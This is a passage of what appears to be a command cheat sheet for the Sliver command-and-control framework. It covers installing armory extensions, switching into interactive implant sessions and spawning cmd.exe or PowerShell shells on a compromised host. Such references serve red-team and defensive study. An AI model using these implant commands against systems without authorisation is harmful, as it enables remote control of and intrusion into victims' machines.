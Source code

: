 ### 5.1 - Help Menu

`sliver > armory -h`

### 5.2 - Usage

* Install all armory extensions

`sliver > armory install all`

## 06 - Interactive Session

### 6.1 - Help Menu

`sliver (IMPLANT_NAME) > interactive -h`

### 6.2 - Usage

`sliver (IMPLANT_NAME) > interactive`

`sliver (IMPLANT_NAME) > background`

`sliver > session -i <session_id>`

`sliver (IMPLANT_NAME) >`

### 6.3 - Spawn Shell

#### 6.3.1 - Help Menu

```
sliver (IMPLANT_NAME) > shell -h

Start an interactive shell

Usage:
======
  shell [flags]

Flags:
======
  -h, --help                 display help
  -y, --no-pty               disable use of pty on macos/linux
  -s, --shell-path string    path to shell interpreter
  -t, --timeout    int       command timeout in seconds (default: 60)
```

#### 6.3.2 - Usage

##### 6.3.2.1 - Windows

`sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\system32\\cmd.exe"`

`sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\system32\\WindowsPowershell\\v1.0\\powershell.exe"`
